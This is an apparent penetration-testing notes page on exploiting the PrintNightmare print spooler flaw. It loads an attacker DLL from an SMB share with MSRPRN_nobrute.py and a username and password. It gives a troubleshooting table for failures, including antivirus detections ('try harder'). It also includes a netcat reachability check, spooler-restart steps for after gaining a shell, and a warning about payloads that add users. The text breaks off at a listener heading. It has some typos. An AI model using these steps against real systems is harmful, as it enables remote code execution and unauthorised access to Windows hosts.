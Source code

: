 ### Errors & tips

| Error                                                                                                         | Solution                                                                                                                                                                                 |
| ------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied                                                         | permissions on the file in the SMB share                                                                                                                                                 |
| RPRN SessionError: unknown error code: 0x180                                                                  | Enable SMB2Support                                                                                                                                                                       |
| RPRN SessionError: code: 0x2: - ERROR_FILE_NOT_FOUND - The system cannot fil the file specified.              | Typo in supplied DLL ?                                                                                                                                                                   |
| RPRN SessionError: code: 0xd8 - ERROR_EXE_MACHINE_TYPE_MISMATCH                                               | DLL is kaduk or wrong architect (x86 vs x64)                                                                                                                                             |
| RPRN SessionError: code 0xe1 - ERROR_VIRUS_INFECTED                                                           | AV caught you butt, try harder                                                                                                                                                           |
| RPRN SessionError: Unknown error code: 0x8001011b                                                             | Seems like the host is patched                                                                                                                                                           |
| RPRN SessionError: code: 0x43 ERROR_BAD_NET_NAME                                                              | Wrong share name used in printnightmare or typo in samba config                                                                                                                          |
| SMB SessionError: STATUS_PIPE_BROKEN                                                                          | Print spooler service crashed during payload execution. Restart the spooler if you got a shell (PowerShell -> `Restart-Service spooler`. CMD -> `net stop spooler && net start spooler`) |
| After killing the session the payload does not work a second time                                             | Always ensure the first thing you do is restart the spooler service upon a shell connect. If you did this, use a different printername. Otherwise ur fuk'd                               |
| Sometimes when removing the print drivers the dll will execute again. This means your payload will run again. | Nothing, just something to be aware of if you use a payload that adds a user or w.e.                                                                                                     |

### Check if system reaches out

By simply trying to connect to a nc instance we can verify that the system can reach our smb server.

Start nc on 445.

```bash
sudo nv -nlvp 445
```

Run MSRPRN_nobrute and try to connect to nc.

```bash
python3 MSRPRN_nobrute.py 'user:pass@ip' PrinterName '\\IP_of_SMB_share\share\printer.dll'
```

![test_if_system_reaches_out](images/test_if_system_reaches_out.png)

### Exploit

{{% notice warning %}}
Depending on the dll you use/actions you preform the the spooler services can crashes/hangs. From my experience in these cases you wont be able to run printnightmare a second time if you did not restart the spooler service before hand. A way around this might be to follow the [Outflank advice](https://github.com/outflanknl/PrintNightmare) to use printnightmare to load a DLL that starts a second thread/process with a new DLL that contains the actual RCE/w.e. payload.
{{% /notice %}}

### Setup a listener

#### Netcat
